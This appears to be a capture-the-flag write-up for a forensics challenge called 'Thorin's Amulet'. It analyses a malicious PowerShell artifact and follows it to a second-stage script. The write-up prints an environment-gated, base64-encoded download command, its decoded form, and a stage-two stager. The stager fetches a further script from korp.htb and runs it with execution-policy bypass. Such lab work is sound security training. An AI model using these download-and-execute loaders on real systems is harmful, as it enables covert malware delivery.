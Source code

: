 #### Thorin's Amulet
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

``` bash
cat artifact.ps1           
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

decoding the command
```bash
( New-Object Net.WebClient ).DownloadString("http://korp.htb/update")
```

host file
``` bash
echo "83.136.251.68 korp.htb" | sudo tee -a /etc/hosts
```

``` bash
curl -v http://korp.htb:57732/update

* Host korp.htb:57732 was resolved.
* IPv6: (none)
* IPv4: 83.136.251.68
*   Trying 83.136.251.68:57732...
* Connected to korp.htb (83.136.251.68) port 57732
* using HTTP/1.x
> GET /update HTTP/1.1
> Host: korp.htb:57732
> User-Agent: curl/8.11.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: Werkzeug/3.1.3 Python/3.13.2
< Date: Sat, 22 Mar 2025 03:52:48 GMT
< Content-Disposition: inline; filename=update.ps1
< Content-Type: application/octet-stream
< Content-Length: 222
< Last-Modified: Wed, 26 Feb 2025 17:58:10 GMT
< Cache-Control: no-cache
< ETag: "1740592690.0-222-1138558671"
< Date: Sat, 22 Mar 2025 03:52:48 GMT
< Connection: close
< 
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
